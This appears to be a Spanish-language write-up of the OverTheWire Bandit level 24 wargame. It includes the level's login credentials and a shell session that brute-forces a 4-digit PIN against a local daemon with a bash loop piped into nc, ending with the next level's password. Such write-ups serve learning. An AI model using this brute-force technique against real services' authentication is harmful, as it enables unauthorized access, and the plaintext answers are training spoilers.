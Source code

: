# Retos Bandit

## Objetivos

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

## Datos de acceso

User: bandit24
Password: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
Host: bandit.labs.overthewire.org  
Port: 2220

## Solución

``` Bash

bandit24@bandit:~$ nc localhoost 30002
nc: getaddrinfo for host "localhoost" port 30002: Temporary failure in name resolution
bandit24@bandit:~$ echo {0000..0005}
0000 0001 0002 0003 0004 0005
bandit24@bandit:~$ echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar  {0000..0005}
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0000 0001 0002 0003 0004 0005
bandit24@bandit:~$ for i in {0000..0005}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0000
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0001
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0002
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0003
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0004
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0005
bandit24@bandit:~$ for i in {0000..0005}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Timeout. Exiting.
bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 | grep -v Wrong!
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
```

## Notas adicionales

## Referencias